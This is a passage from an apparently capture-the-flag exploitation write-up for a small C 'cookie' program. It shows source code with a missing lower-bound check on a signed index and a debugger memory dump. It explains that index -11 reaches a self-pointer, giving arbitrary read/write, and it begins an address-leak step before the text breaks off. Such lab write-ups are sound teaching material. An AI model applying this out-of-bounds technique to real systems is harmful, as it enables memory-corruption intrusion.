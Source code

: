 ```c=
        msg[idx][num_read] = '\0';
    printf("Done!\n\n");

}

void read_cookie() {
    long long idx;
    
    printf("Which cookie?[0-%d]: ", cookie_num-1);
    scanf("%llu", &idx);

    if (idx >= cookie_num) {
        _abort("Invalid index!");
    }

    printf("%s\n\n", msg[idx]);
}

```

Which mean we can read and edit the data outside the msg array
In the address below the msg location, I found a important address.
```shell=
gef➤  tele (double*)&msg-0x10 20
0x000055770ddb4fe0│+0x0000: 0x00007f3f8ad10750  →  <__libc_start_main+0> push r14
0x000055770ddb4fe8│+0x0008: 0x0000000000000000
0x000055770ddb4ff0│+0x0010: 0x0000000000000000
0x000055770ddb4ff8│+0x0018: 0x00007f3f8ad2a2e0  →  <__cxa_finalize+0> push r15
0x000055770ddb5000│+0x0020: 0x0000000000000000
0x000055770ddb5008│+0x0028: 0x000055770ddb5008  →  [loop detected]
0x000055770ddb5010│+0x0030: 0x0000000000000000
0x000055770ddb5018│+0x0038: 0x0000000000000000
0x000055770ddb5020│+0x0040: 0x00007f3f8b0b5620  →  0x00000000fbad2887
0x000055770ddb5028│+0x0048: 0x0000000000000000
0x000055770ddb5030│+0x0050: 0x00007f3f8b0b48e0  →  0x00000000fbad208b
0x000055770ddb5038│+0x0058: 0x0000000000000000
0x000055770ddb5040│+0x0060: 0x00007f3f8b0b5540  →  0x00000000fbad2087
0x000055770ddb5048│+0x0068: 0x0000000000000000
0x000055770ddb5050│+0x0070: 0x0000000000000000
0x000055770ddb5058│+0x0078: 0x0000000000000000
0x000055770ddb5060│+0x0080: 0x000055770e9c5240  →  "The best thing to do first thing in the morning is"
0x000055770ddb5068│+0x0088: 0x000055770e9c52a0  →  "Every 60 seconds in africa a minute passes."
0x000055770ddb5070│+0x0090: 0x000055770e9c52e0  →  "Monday hates you, too."
0x000055770ddb5078│+0x0098: 0x000055770e9c5300  →  "Money is not everything. There's always credit car[...]"
```

You can see in `0x000055770ddb5008`, there has a address pointer to itself.

We can control this address by index -11 to get the arbitrary write and read.

### Step 2: Leak address
By input -11 to show function, we can leak the data of that address which is it's address.
